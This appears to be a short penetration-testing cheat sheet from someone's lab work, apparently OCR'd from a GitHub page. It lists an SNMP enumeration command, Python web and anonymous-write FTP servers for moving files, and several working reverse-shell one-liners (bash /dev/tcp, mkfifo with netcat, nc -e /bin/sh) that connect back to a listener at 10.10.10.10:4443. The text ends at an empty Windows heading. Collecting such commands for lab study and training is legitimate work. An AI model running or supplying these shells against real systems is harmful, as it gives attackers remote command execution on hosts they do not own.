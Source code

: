 # SNMP enumeration

` snmp-check 10.10.10.10`




## Commands
This section will include commands / code I used in the lab environment that I found useful

# Python Servers

# Web Server

` python -m SimpleHTTPServer 80`


## FTP Server

 # Install pyftpdlib
` pip install pyftpdlib`

 # Run (-w flag allows anonymous write access)
` python -m pyftpdlib -p 21 -w`


# Reverse Shells

# Bash shell

 `bash -i >& /dev/tcp/10.10.10.10/4443 0>&1`
# Netcat without -e ag

` rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f
`

# Netcat Linux

` nc -e /bin/sh 10.10.10.10 4443`


# Netcat Windows
